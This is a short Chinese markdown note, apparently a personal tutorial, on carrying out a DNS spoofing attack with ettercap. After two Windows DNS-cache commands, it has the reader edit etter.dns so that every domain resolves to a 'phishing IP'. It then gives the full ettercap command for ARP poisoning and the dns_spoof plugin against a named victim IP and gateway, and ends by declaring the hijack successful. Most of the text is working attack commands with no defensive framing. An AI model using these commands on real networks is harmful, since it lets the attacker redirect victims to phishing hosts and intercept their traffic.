

# 终端查看dns 命令
```
1. 查看dns缓存 ipconfig /displaydns
2. 刷新dns缓存 ipconfig /flushdns
```

# 1. 修改 /etc/ettercap/etter.dns 文件
    1. 添加下面
*   A   192.168.1.25 
*   PTR 192.168.1.25

* 代表 全部
A 代表 钓鱼ip
PTR 代表 常被用于地址代理解析

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /被攻击者ip// /被攻击者网关//
-i ：网卡
-T ：文本模式
-q ：安静模式
-M : 执行mitmI 攻击
-P ： plugin 插件
```


* 劫持 ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.1.101// /192.168.1.1// > d.txt
* 查看日志 tail -f d.txt | grep "dns_spoof"
## 劫持成功

